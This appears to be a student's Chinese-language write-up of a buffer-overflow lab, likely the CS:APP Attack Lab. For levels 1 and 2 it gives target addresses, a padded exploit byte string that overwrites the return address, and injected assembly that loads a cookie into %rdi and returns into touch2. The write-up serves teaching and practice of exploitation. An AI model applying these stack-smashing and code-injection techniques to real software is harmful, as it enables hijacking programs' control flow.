 ### level1实战

获取touch1地址：0x401884
获取getbuf开辟空间：0x38 (56)
答案：
```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
84 18 40 00
```

### Level2

目的为执行touch2，且传入val值需要等于cookie，cookie值为0x59b997fa。
主要思路：getbuf返回地址设置为$rsp， $rsp处放置我们的注入代码——将rsp的值移入rdi，压栈touch2的返回地址，返回。
touch2代码如下

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

touch2的汇编代码如下：

```c
    0x00000000004017ec <+0>:	sub    $0x8,%rsp    // 可以看到首地址为0x004017ec
    // ……其他代码
```

Answer：我们只需要将cookie的值0x59b997fa放入rdi中（注入代码），然后调用touch2即可，仍然注意是小端编址。
此外需要注意一点是我们本题限制了使用jump等方式跳转，所以使用ret跳转，ret跳转需要将0x4017ec压栈。
注入代码如下（存放在2inject.s中）

```c
    movq    $0x59b997fa, %rdi       // 直接把$0x59b997fa即cookie的值移动到%rdi
    pushq   $0x4017ec               // 入栈，即之后返回地址为0x4017ec
    ret
```
